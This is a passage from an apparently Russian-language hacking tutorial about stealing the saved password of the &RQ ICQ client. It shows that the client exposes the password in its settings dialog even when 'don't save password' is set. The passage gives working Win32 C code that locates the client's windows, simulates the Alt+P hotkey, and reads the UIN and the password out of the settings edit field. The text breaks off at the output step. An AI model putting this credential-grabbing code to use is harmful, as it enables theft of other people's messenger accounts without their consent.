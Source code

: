 ### Взлом паролей &RQ 

Так же бесплатный и не менее популярный, чем QIP, ICQ-клиент, который ласково называют "крысой". Крыса поддерживает плагины, скины и поддерживается сообществом разработчиков.  
Качаем последнюю стабильную версию с офсайта и начинаем исследование.  
После запуска &RQ предлагает нам создать новый профиль, для чего надо указать свой UIN, либо зарегистрировать новый. Далее предлагается выбрать язык интерфейса и программа благополучно стартует. Для того, чтобы крыса подключилась к серверу, надо выбрать статус "Онлайн". Программа запрашивает пароль и подключается. Можно указать программе что надо подключаться автоматически при старте, для этого надо в настройках \(Alt+P\) поставить опцию "Соединяться при запуске" на фрейме "Запуск". Это не обязательно. Для нас же важна опция "Не сохранять пароль", в категории "Безопасность" настроек. Выставляем ее.  
Переходим на фрейм "Соединение". Чем примечательна для нас данная категория? Тем, что здесь есть поле "Пароль". Запомним это обстоятельство. Пока же закроем крысу.  
Откроем ее заново. Для подключения нам надо указать пароль, ведь мы выставили опцию "Не сохранят пароль". Введем пароль, подключимся. Снова вызовем диалог настроек. Удивительно, но поле "Пароль" содержит текст. Это наш пароль? Проверим.  
Воспользовавшись утилитой Spy++, узнаем имена классов окон &RQ, и начнем писать код.

```text
void main()
{
// Объявим переменные, необходимые для работы
HWND hmainFrm,hprefFrm,hPanel,hconnectionFr,hEdit; // Идентификаторы форм
char* pUIN; // Указатель на буфер для UIN
char* pPass; // Указатель на буфер для пароля
int iUIN; // Длина UIN
int iPass; // Длина пароля
// Основное окно &RQ. Из него мы будем получать UIN
hmainFrm=FindWindow("TmainFrm",0);
// Длина текста
iUIN=SendMessage(hmainFrm, WM_GETTEXTLENGTH, 0, 0)+1;
// Выделяем буфер
pUIN=(char*)LocalAlloc(0,iUIN);
// Получаем заголовок основного окна - это UIN
GetWindowText(hmainFrm,pUIN,iUIN);
/*
```

Следует учитывать, что при запуске &RQ, окно настроек  
не открывается вместе с основным окном. Но что же нам  
мешает его открыть? Тем более что нам любезно предоставлена  
возможность использовать горячие клавиши \(Alt+P\). Вот  
и эмулируем их нажатие.

```text
*/
// Эмуляция Alt+P - горячей клавиши для вызова окна "Настройки"
SendMessage(hmainFrm, WM_SYSKEYDOWN, 'P', 0x20000000);
SendMessage(hmainFrm, WM_SYSKEYUP, 'P', 0x20000000);
// Находим окно настроек
hprefFrm=FindWindow("TprefFrm",0);
// Панель с категориями настроек
hPanel=FindWindowEx(hprefFrm,0,"TPanel",0);
// Фрейм с настройками подключения
hconnectionFr=FindWindowEx(hPanel,0,"TconnectionFr",0);
// Поле с паролем
hEdit=FindWindowEx(hconnectionFr,0,"TEdit",0);
// Длина пароля
iPass=SendMessage(hEdit, WM_GETTEXTLENGTH, 0, 0)+1;
// Выделаем буфер
pPass=(char*)LocalAlloc(0,iPass);
// Получаем пароль
SendMessage(hEdit, WM_GETTEXT, iPass, (long)pPass);
// Выводим результат
```